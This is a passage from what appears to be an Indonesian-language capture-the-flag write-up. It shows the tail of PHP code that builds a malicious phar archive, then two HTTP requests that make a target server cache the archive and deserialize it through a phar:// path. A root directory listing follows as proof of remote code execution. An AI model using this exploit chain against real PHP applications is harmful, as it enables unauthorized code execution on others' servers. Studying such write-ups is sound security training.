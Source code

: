 ```php
    $phar->setMetadata($obj);
    $phar->stopBuffering();

}
```

Pertama, akses URL `exploit.phar` pada aplikasi web agar cache-nya disimpan.

```
GET http://13.230.134.135/?url=http://IP/exploit.phar
```

Lalu, gunakan POST request untuk membuka stream 'phar://' dengan lokasi cache dari `exploit.phar` sebagai path.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@phar:///var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(http://IP/exploit.phar)/body.cache
```

Dan RCE berhasil dilakukan!

```
total 104
drwxr-xr-x  26 root root  1000 Oct 21 11:08 run
drwxrwxrwt   2 root root  4096 Oct 21 06:25 tmp
-rwsr-sr-x   1 root root  8568 Oct 18 19:53 read_flag
drwxr-xr-x  23 root root  4096 Oct 18 19:53 .
drwxr-xr-x  23 root root  4096 Oct 18 19:53 ..
drwx------   5 root root  4096 Oct 18 17:12 root
drwxr-xr-x  90 root root  4096 Oct 18 11:23 etc
dr-xr-xr-x  13 root root     0 Oct 16 07:57 sys
-r--------   1 root root    54 Oct 15 19:49 flag
drwxr-xr-x   4 root root  4096 Oct 15 19:41 home
drwxr-xr-x   3 root root  4096 Oct  9 06:07 boot
lrwxrwxrwx   1 root root    31 Oct  9 06:07 initrd.img -> boot/initrd.img-4.15.0-1023-aws
lrwxrwxrwx   1 root root    28 Oct  9 06:07 vmlinuz -> boot/vmlinuz-4.15.0-1023-aws
drwxr-xr-x   2 root root  4096 Oct  9 06:07 sbin
lrwxrwxrwx   1 root root    14 Oct  8 17:14 www -> /var/www/html/
drwxr-xr-x  14 root root  4096 Oct  8 17:13 var
drwxr-xr-x   5 root root  4096 Oct  8 17:06 snap
drwxr-xr-x  15 root root  2980 Oct  8 17:06 dev
dr-xr-xr-x 136 root root     0 Oct  8 17:06 proc
lrwxrwxrwx   1 root root    31 Sep 12 16:16 initrd.img.old -> boot/initrd.img-4.15.0-1021-aws
lrwxrwxrwx   1 root root    28 Sep 12 16:16 vmlinuz.old -> boot/vmlinuz-4.15.0-1021-aws
drwxr-xr-x  20 root root  4096 Sep 12 16:16 lib
drwx------   2 root root 16384 Sep 12 16:10 lost+found
drwxr-xr-x   2 root root  4096 Sep 12 15:59 bin
drwxr-xr-x   2 root root  4096 Sep 12 15:56 lib64
drwxr-xr-x  10 root root  4096 Sep 12 15:55 usr
drwxr-xr-x   2 root root  4096 Sep 12 15:55 media
drwxr-xr-x   2 root root  4096 Sep 12 15:55 opt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 mnt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 srv
```

